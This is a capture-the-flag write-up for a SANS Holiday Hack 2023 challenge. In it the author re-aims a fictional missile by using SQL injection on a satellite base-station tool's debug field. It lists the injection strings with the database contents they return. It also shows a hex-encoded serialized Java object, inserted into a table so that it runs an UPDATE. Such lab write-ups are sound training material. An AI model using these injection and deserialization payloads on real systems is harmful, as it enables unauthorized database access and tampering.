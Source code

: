 # OBJECTIVE 22 - Missile Diversion #

## OBJECTIVE : ##
>Thwart Jack’s evil plan by re-aiming his missile at the Sun.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 22</summary>
  
>-  Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.
</details>

#  

## PROCEDURE : ##
This challenge continues where OBJECTIVE 21 left off.  We are still connected to the **NanoSat MO Base Station Tool** and need to figure out how to re-aim a missile that is currently aimed at Earth.

After some playing-around with the **NanoSat MO Base Station Tool** I found that by going to the **Action Service** tab, selecting the `Debug` action,  clicking on **submitAction** and clicking **Edit** I was able to pass on SQLI test strings that seemed to be parsed by the program.  For example if I enter `OR 1=1;` as value string then go to the **Parameter Service** tab,  select `Debug` and click on **getValue**, I get the output:  `rawValue: VERSION() OR 1=1: 1`

Using this method I was able to get some interesting information which I enumarted in the following table:

SQLI | String	Response
:---|:---
OR 1=1;|	VERSION() OR 1=1:1
;	VERSION():| 11.2.2-MariaDB-1:11.2.2+maria~ubu2204
=1 order by 1,2|	Unknow column ‘2’ in ‘order clause’
=1 order by 1	|VERSION()=1:0
; select table_name from information_schema.tables|	Output is very long and needs to be captured using Wireshark as per the procedure followed in Objective 20 – Camera Access but gives us a list of all the tables in the schema which is very useful to enumerate the rest.
; select * from target_coordinates|	Id: 1 \| lat: 1.14514 \| lng: -145.262
; select * from pointing_mode	|id: 1 \| numerical_mode: 0 \|
; select * from pointing_mode_to_string|	Id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coorinates to earth. \| id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates.
; select * from messaging	|id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \| id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \| id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \| id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \| id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \| id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \| id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \| id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| 
; select * from sattelite_query	|**[JAVA CODE](Code/SatelliteQueryFileFolderUtility.java)**
; show columns from satellite_query;|	COLUMN_NAME: jid \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \|COLUMN_NAME: object \| COLUMN_TYPE: blob \| IS_NULLABLE: YES \| COLUMN_KEY: COLUMN_NAME: results \| COLUMN_TYPE: text \| IS_NULLABLE: YES \| COLUMN_KEY:convertedValue: null COLUMN_DEFAULT: null \| EXTRA: \| COLUMN_DEFAULT: null \| EXTRA: \|
; show columns from pointing_mode|	COLUMN_NAME: id \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \| COLUMN_NAME: numerical_mode \| COLUMN_TYPE: int(11) \| IS_NULLABLE: YES \| COLUMN_KEY: \| COLUMN_DEFAULT: null \| EXTRA: \|

First of all – hats off for including a [Wargames reference](https://i.gifer.com/7Mzk.gif) in the `messaging` table.  Secondly by using SQL Injection it was possible to retrieve a lot of useful information.  Namely:
-	The coordinates are useless to us and we do nto need to be concerned with them.
-	The table `pointing_mode` determines where the missile is pointed and by changing the value stored under column `numerical_mode` from `0` to `1` we can re-aim the missiles to the sun.
-	The table `sattelite_query` has some kind of query in the object column and under results there is [some Java code](Code/SatelliteQueryFileFolderUtility.java)

I pasted the string I found in `satellite_query` as well as the java code in [ChatGPT](https://chat.openai.com/) and from there I learned that the string in the object column is a **serialized java object**.  The Java code retrieved from the results column takes this serialised object as it’s input and parses a SQL query, SQL update or retrieves a file.

I prompted ChatGPT to create a java program that would accept a SQL command as input and would use the [Java code I retrieved](Code/SatelliteQueryFileFolderUtility.java) to prepare a hex string that can be fed back to it as an input.  Using this program I created a hex string for the SQL command ``UPDATE pointing_mode SET numerical_mode = 1 WHERE Id = 1``.
I then included the resulting serialized hex in a SQL command to add it as a new entry in `satellite_query` and I pasted this into the `debug` field similarly to how I exfiltrated the database info earlier:
```
; INSERT INTO satellite_query (jid, object)
VALUES (2, 0xaced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245204964203d2031);
```
(NOTE the preceeding `;` and the `0x` before the hex string)

This updated the value of `numerical_mode` in `pointing_mode` from `0` to `1` thus pointing the missile safely towards the sun and away from the Earth.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2023/assets/60655500/74e7b554-6a65-421d-8e81-f577bad6a9ab)


This write-up is almost ridiculously short for a challenge that took me **close to seven hours** to complete!  

